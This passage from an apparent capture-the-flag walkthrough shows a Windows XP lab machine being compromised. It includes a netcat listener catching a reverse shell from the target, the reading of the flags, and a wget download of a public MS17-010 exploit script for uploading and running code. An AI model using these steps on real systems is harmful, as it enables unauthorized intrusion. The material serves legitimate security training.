 
As it’s running, I get a callback on my listener:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.4.
    Ncat: Connection from 10.10.10.4:1028.
    Microsoft Windows XP [Version 5.1.2600]
    (C) Copyright 1985-2001 Microsoft Corp.
    
    C:\WINDOWS\system32>
    

And from there I can get both flags:

    
    
    C:\Documents and Settings\john\Desktop>type user.txt
    e69af0e4...
    
    C:\Documents and Settings\Administrator\Desktop>type root.txt
    993442d2...
    

### MS-17-010

#### Locate Exploit

There’s a few GitHubs out there with MS-17-010 code, but not as many that work
on XP. My favorite is a fork of [worawit’s MS17-010
repo](https://github.com/worawit/MS17-010) by
[helviojunior](https://github.com/helviojunior/MS17-010). He added a
`send_and_execute.py`, which I can give an executable and it will upload and
run it.

I’ll grab a copy of the script:

    
    
    root@kali# wget https://raw.githubusercontent.com/helviojunior/MS17-010/master/send_and_execute.py
    --2019-02-19 14:05:59--  https://raw.githubusercontent.com/helviojunior/MS17-010/master/send_and_execute.py
    Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.248.133
    Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.248.133|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 43783 (43K) [text/plain]
    Saving to: ‘send_and_execute.py’
    
    send_and_execute.py                                         100%[========================================================================================================================================>]  42.76K  --.-KB/s    in 0.01s   
    
    2019-02-19 14:05:59 (3.19 MB/s) - ‘send_and_execute.py’ saved [43783/43783]
    
